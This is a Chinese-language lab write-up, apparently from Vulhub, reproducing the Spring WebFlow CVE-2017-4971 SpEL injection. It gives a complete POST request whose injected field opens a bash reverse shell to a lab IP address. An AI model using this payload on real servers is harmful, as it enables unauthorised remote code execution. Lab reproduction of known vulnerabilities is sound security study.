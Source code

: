 # Spring WebFlow 远程代码执行漏洞 CVE-2017-4971

## 漏洞描述

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

参考链接：

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## 环境搭建

Vulhub运行测试环境：

```
docker-compose up -d
```

等待环境启动后，访问`http://your-ip:8080`，将看到一个酒店预订的页面，这是spring-webflow官方给的简单示例。

## 漏洞复现

首先访问`http://your-ip:8080/login`，用页面左边给出的任意一个账号/密码登录系统：

![image-20220301141732657](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011417883.png)

然后访问id为1的酒店`http://your-ip:8080/hotels/1`，点击预订按钮“Book Hotel”，填写相关信息后点击“Process”（从这一步，其实WebFlow就正式开始了）：

![image-20220301141904282](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011419530.png)

再点击确认“Confirm”：

![image-20220301141916160](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011419396.png)

此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

```
_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.174.128/9999+0>%261")).start()=vulhub
```

最终的POST数据包如下：

```
POST /hotels/booking?execution=e3s2 HTTP/1.1
Host: your-vps-ip:8080
Content-Length: 172
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-vps-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-vps-ip:8080/hotels/booking?execution=e3s2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: lang=zh-CN; COOKIE_SUPPORT=true; GUEST_LANGUAGE_ID=en_US; JSESSIONID=E489BFF839A3C8D346F45D1B1A8BF03F
Connection: close

_eventId_confirm=&_csrf=5509ae82-f763-41a3-b347-44f09e16fd2e&_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.174.128/9999+0>%261")).start()=vulhub
```

![image-20220301143832936](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011438058.png)

成功执行，获得shell：

![image-20220301143749029](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011437112.png)